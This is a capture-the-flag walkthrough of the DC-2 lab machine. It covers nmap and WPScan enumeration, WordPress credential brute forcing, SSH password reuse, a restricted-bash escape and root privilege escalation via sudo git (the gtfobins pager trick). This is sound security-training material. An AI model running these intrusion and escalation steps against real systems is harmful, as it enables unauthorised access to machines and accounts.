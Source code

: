 # PG Play - DC-2

#### Ip: 192.168.244.194
#### Name: DC-2
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

Lets begin this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ sudo nmap -p-  --min-rate 10000 192.168.244.194
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 10:33 CDT
Nmap scan report for 192.168.244.194
Host is up (0.068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu

Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

We can scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ sudo nmap -sC -sV 192.168.244.194 -p 80,7744   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 10:34 CDT
Nmap scan report for 192.168.244.194
Host is up (0.065s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.42 seconds
```

Ok, looks like just HTTP and SSH (running on an uncommon port) are open. Also, we can tell from Nmap that the Ip is redirecting to http://dc-2/, so lets add that to the `/etc/hosts` file.

Looking at the site we see its running WordPress:

![site.png](../assets/dc-2_assets/site.png)

Lets use WPScan to see what else we can find:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ wpscan --url dc-2 --enumerate vp,u,vt,tt

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```

Cool, WPScan found three usernames:

![users.png](../assets/dc-2_assets/users.png)

Lets add them to a list called users.txt

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ cat >> users.txt                 
admin
tom
jerry
```

Based on a hint on the webpage, I'll use cewl to generate a custom wordlist:

### Exploitation

We can do that by running:

![cewl.png](../assets/dc-2_assets/cewl.png)

Now that we have a potential password list we can try to bruteforce the WordPress site using wpscan:

![creds.png](../assets/dc-2_assets/creds.png)

Nice, we've got a couple credentials. Before logging into the WP site, lets see if these passswords are being reused for SSH too.

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ ssh tom@dc-2 -p 7744
The authenticity of host '[dc-2]:7744 ([192.168.244.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ whoami
-rbash: whoami: command not found
tom@DC-2:~$ id
-rbash: id: command not found
```

Cool, the credentials worked, but it looks like we're in a restricted shell. We can bypass this by fixing the path:

```text
tom@DC-2:~$ id
-rbash: id: command not found
tom@DC-2:~$ BASH_CMDS[a]=/bin/sh;a
$ export PATH=/bin:/sbin:/usr/bin:$PATH
$ whoami
tom
$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

We can now grab the local.txt:

![user_flag.png](../assets/dc-2_assets/user_flag.png)

### Privilege Escalation

Taking a look at the flag3.txt file we find another hint:

```text
$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

Lets su over to user jerry and see what they can run:

```text
$ su jerry
Password: 
jerry@DC-2:/home/tom$ whoami
jerry
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Interesting, looks like jerry can run git as root.

We can head over to https://gtfobins.github.io/gtfobins/git/ and find the commands we need:

![gtfo.png](../assets/dc-2_assets/gtfo.png)

Nice, that worked:

```text
jerry@DC-2:/home/tom$ sudo git -p help config
GIT-CONFIG(1)                                           Git Manual                                          GIT-CONFIG(1)



NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
       git config [<file-option>] [type] [-z|--null] --get name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-all name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-regexp name_regex [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-urlmatch name URL
       git config [<file-option>] --unset name [value_regex]
       git config [<file-option>] --unset-all name [value_regex]
       git config [<file-option>] --rename-section old_name new_name
       git config [<file-option>] --remove-section name
       git config [<file-option>] [-z|--null] -l | --list
       git config [<file-option>] --get-color name [default]
       git config [<file-option>] --get-colorbool name [stdout-is-tty]
       git config [<file-option>] -e | --edit


DESCRIPTION
       You can query/set/replace/unset options with this command. The name is actually the section and the key separated
       by a dot, and the value will be escaped.

       Multiple lines can be added to an option by using the --add option. If you want to update or unset an option which
!/bin/sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the proof.txt flag:

![root_flag.png](../assets/dc-2_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------
